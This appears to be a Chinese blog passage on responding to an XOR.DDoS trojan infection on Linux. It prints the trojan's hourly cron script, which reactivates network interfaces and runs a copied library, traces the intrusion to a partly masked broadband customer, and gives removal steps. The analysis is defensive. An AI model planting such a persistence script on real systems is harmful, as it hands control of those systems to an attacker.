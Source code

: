 2. 程序入口
**-bash-4.3# vi /etc/cron.hourly/gcc.sh**
```
\#!/bin/sh
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/usr/X11R6/bin
for i in `cat /proc/net/dev|grep :|awk -F: {'print $1'}`; do ifconfig $i up& done   
cp /lib/libudev.so /lib/libudev.so.6
/lib/libudev.so.6
```
木马通过crontab创建时间计划任务来实现启动,运行该gcc.sh，该命令启动所有网卡，并拷贝/lib/libudev.so文件到/lib/libudev.so.6并执行该文件。

3. 攻击路径
如果部署了登陆审计平台，或者对方还没来得及清扫犯罪现场，可以看到他的来路：
```
-bash-4.3# last -10
user   pts/3        11X.25.49.200    Mon Jun  6 23:46 - 01:47  (02:01)
```
再根据以上公网IP和时间，可以定位到它的来源是某普通宽带用户。
宽带账号：05919399XXXX@fj
客户名称：危XX

4. 应急清除策略
恢复crontab－>清除gcc.sh －>清除/lib/libudev.so.6 －>查杀进程
一定要注意操作顺序，如果只kill掉进程是没有用的，它已经做到自己复制、重启。


#### XOR.DDoS木马原理
编号101是一款国产的Linux系统的远程控制软件（Linux/XOR.DDoS）。

MalwareMustDie首先在2014年10月曝光了该木马。32位和64位的Linux Web服务器、台式机、ARM架构系统等也容易遭受该木马攻击。

杀毒软件公司Avast在它们的博客中解释了这种新的威胁，该木马可以根据目标Linux系统环境的不同来相应调整安装方式，并安装一个rootkit来躲避杀毒软件的检测。黑客首先通过SSH暴力登录目标Linux系统，然后尝试获得根用户证书。如果成功，则通过一个shell脚本安装该木马，该shell脚本的功能主要包括：主程序、环境检测、编译、解压、安装等。该木马首先通过受害系统的内核头文件来进行兼容性检测，如果成功匹配则继续安装一个rootkit，以此来隐藏木马自身。

此外，它主要针对游戏和教育网站，能够对其发起强有力的DDoS攻击，可以达到每秒1500亿字节的恶意流量。根据内容分发网络Akamai科技发布的一份报告，XOR DDoS僵尸网络每天至少瞄准20个网站，将近90%的目标站点位于亚洲。报告中声称：
“Akamai的安全情报反应小组（SIRT）正在追踪XOR DDoS，这是一个木马恶意软件，攻击者使用它劫持Linux机器并将其加入到僵尸网络，以发起分布式拒绝服务攻击（DDoS）活动。迄今为止，XOR DDoS僵尸网络的DDoS攻击带宽从数十亿字节每秒（Gbps）到150+Gbps。游戏行业是其主要的攻击目标，然后是教育机构。今天早上Akamai SIRT发布了一份安全威胁报告，该报告由安全响应工程师Tsvetelin ‘Vincent’ Choranov所作。”

#### 源码分析

**多态（Polymorphic）** 是指恶意软件在自我繁殖期间不断改变（“morphs”）其自身文件特征码（大小、hash等等）的特点，衍生后的恶意软件可能跟以前副本不一致。因此，这种能够自我变种的恶意软件很难使用基于签名扫描的安全软件进行识别和检测。

![样本](http://riboseyim-qiniu.riboseyim.com/trojan-demo-1.png)

![样本](http://riboseyim-qiniu.riboseyim.com/trojan-demo-1-2.png)

木马具有非常多功能：增加服务、删除服务、执行程序、隐藏进程、隐藏文件、下载文件、获取系统信息、发起DDOS攻击等行为。
主程序的作用是根据感染目标机器的系统开发版本传输并且选择C&C服务器。
C2服务器归属地为美国,加利福尼亚州,洛杉矶。

其实就算是拿到了样本，逆向难度也很大。何况木马关键数据全部加密，传输过程也加密，哪哪都是加密。笔者曾经试图自行破解，找来了《IDA Pro指南》之类的秘籍，无奈功力不够，只能草草收场。
